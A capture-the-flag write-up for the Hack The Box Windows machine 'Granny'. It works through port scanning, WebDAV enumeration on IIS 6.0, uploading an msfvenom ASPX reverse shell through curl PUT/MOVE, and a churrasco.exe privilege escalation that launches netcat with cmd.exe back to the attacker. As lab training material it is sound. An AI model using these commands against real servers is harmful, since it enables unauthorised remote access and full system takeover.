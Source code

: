 # Granny

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Granny)  [2](https://app.hackthebox.com/machines/Granny)

**Machine ip:** 10.10.10.15

![Granny](https://github.com/h4md153v63n/CTFs/assets/5091265/69e37688-dfcb-49cc-810a-ec81fec1581b)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.15 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.15 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ec0f4480-c9e2-4ca0-a2e8-0d68e25572cc)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/212f7ec1-e525-4478-9288-149a9f5e5ec4)


## Enumeration
Visit **http://10.10.10.15**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6c195f8b-51e0-4e25-bb23-ac0b0deee900)

Directory fuzzing, and there's nothing useful here:

`gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.15/ -k -n -r -t 50`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a16434ff-a8b8-4fa4-98b3-ada15e1356a3)

The server is a IIS httpd 6.0 server, and it's using **WebDAV** extension:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0c3e5ae0-216e-4315-a416-81bac7972e2d)

Check the allowed HTTP methods: `davtest --url http://10.10.10.15`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ed156ba0-61f4-4c6b-b74a-0d1eb796979b)


## Exploitation & Gaining Access

### Method 1: [WebDav Vulnerability](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#iis5-6-webdav-vulnerability)
Generate a reverse shell with msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > shell.aspx

mv shell.aspx shell.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03d4a892-0847-4152-9540-70b82ce26b5f)

**Alternative shells:**
+ `/usr/share/webshells/aspx/cmdasp.aspx`

Upload it using curl with PUT method, and rename it back to the original file type aspx using curl with MOVE option:

```
curl -X PUT http://10.10.10.15/shell.txt --data-binary @shell.txt

curl -X MOVE --header 'Destination:http://10.10.10.15/shell.aspx' 'http://10.10.10.15/shell.txt' 
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b2ef3cc0-7d3c-41b9-aa22-768d296ff1a6)

```
# Start netcat listener:
nc -nvlp 4444

# Trigger the revershell using curl, or opening on the browser:
curl http://10.10.10.15/shell.aspx
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3a072777-cb2a-4d6d-b136-0577b7f52fb0)

We got the shell, and there's no privilege to read user.txt flag.


### Method 2: [CVE-2017-7269](https://www.exploit-db.com/exploits/41738)
Check the solution [1](https://nimanthadeshappriya.medium.com/hack-the-box-granny-writeup-without-metasploit-864848ffffff)

Exploit poc links [1](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) [2](https://github.com/c0d3cr4f73r/CVE-2017-7269)


## Privilege Escalation

### Method 1: MS15-051 [1](https://github.com/Re4son/Churrasco) / CVE:N/A [2](https://www.exploit-db.com/exploits/6705)
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6515a046-7ff5-44d9-97c0-9474442fb379)

```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/20c25173-1276-4990-ad97-70c861e7ff03)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-15-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/287d5c3d-4949-47e9-a841-b029af5fe2f0)

There are many exploits for privilege escalation here, but for now try **MS15-051**: [Microsoft Windows Server 2003 — Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705).

Download exploit [1](https://github.com/Re4son/Churrasco), and transfer to the target victim, then prepare netcat listener, and run it:

```
# On the kali attack vm:
smbserver.py desktop /home/kali/Desktop

smbserver.py win /usr/share/windows-binaries/

nc -lnvp 5555

# On the target machine:
cd c:\inetpub\wwwroot

copy \\10.10.14.24\desktop\churrasco.exe

copy \\10.10.14.24\win\nc.exe

churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe 10.10.14.24 5555 -e cmd.exe"
```

Get the shell as **nt authority\system**, and read both user.txt flag and root.txt flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/86116b29-e1bd-41bd-b658-be751f8e5c84)


### Method 2: MS14-058 -> Metasploit Solution
Check the solution [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/granny-writeup-w-o-and-w-metasploit#id-317c) [2](https://0xdf.gitlab.io/2019/03/06/htb-granny.html#ms14-058)


# References & Alternatives
+ https://vvmlist.github.io/#Granny
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/granny-writeup-w-o-and-w-metasploit
+ https://0xdf.gitlab.io/2019/03/06/htb-granny.html
+ https://nimanthadeshappriya.medium.com/hack-the-box-granny-writeup-without-metasploit-864848ffffff
+ 


## CVE Scripting
+ **MS15-051:**
  + https://www.exploit-db.com/exploits/6705
  + https://github.com/Re4son/Churrasco
+ **CVE-2017-7269:**
  + https://www.exploit-db.com/exploits/41738
  + https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
  + https://github.com/c0d3cr4f73r/CVE-2017-7269


## Tools
+ **davtest:**
  + https://www.kali.org/tools/davtest/
  + https://cirt.net/DAVTest
  + https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav
+ **Windows Exploit Suggester:**
  + https://github.com/AonCyberLabs/Windows-Exploit-Suggester
+ .aspx shells:
  + msfvenom 
  + `/usr/share/webshells/aspx/cmdasp.aspx`


## Technical Knowledge
+ **WebDav Vulnerability:**
  + https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav


## Problems Solution
+ 


## For More
+ https://asfiyashaikh.medium.com/windows-privilege-escalation-using-sudo-su-ae5573feccd9
+ https://linux.die.net/man/1/cadaver


